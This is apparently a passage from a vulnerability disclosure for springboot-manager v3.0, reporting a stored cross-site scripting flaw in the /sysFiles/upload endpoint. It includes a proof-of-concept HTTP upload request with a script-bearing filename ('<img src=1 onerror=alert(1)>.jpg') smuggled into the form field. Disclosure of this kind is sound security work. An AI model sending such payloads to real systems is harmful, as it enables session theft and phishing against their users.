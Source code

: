 ![image-20250228214146464](assets/image-20250228214146464.png)

### 1.3 `/sysFiles/upload` Stored cross-site scripting

[Affected version]

v3.0



[Affected Component]

/sysFiles/upload



[Software]

https://gitee.com/zwens/springboot-manager/repository/archive/v3.0



[Description]

The spring-manager system v3.0 has a stored XSS vulnerability in the `/sysFiles/upload` interface. The parameter name has not been properly handled. Hackers can exploit this vulnerability to obtain cookies, conduct phishing attacks, and carry out worm attacks.

POC

```
POST /manager/sysFiles/upload HTTP/1.1
Host: 192.168.1.184:8081
Content-Length: 212
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary8QlVhbN3eIw5KKQb
Origin: http://192.168.1.184:8081
Referer: http://192.168.1.184:8081/manager/index/sysFiles
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=0592A0FE99DCA290FBC248D5D091B650; satoken=01cdb2b4-c114-4d1c-8930-ddf92e97d658
Connection: keep-alive

------WebKitFormBoundary8QlVhbN3eIw5KKQb
Content-Disposition: form-data; name="file"; filename="<img src=1 onerror=alert(1)>.jpg"
Content-Type: image/jpeg

```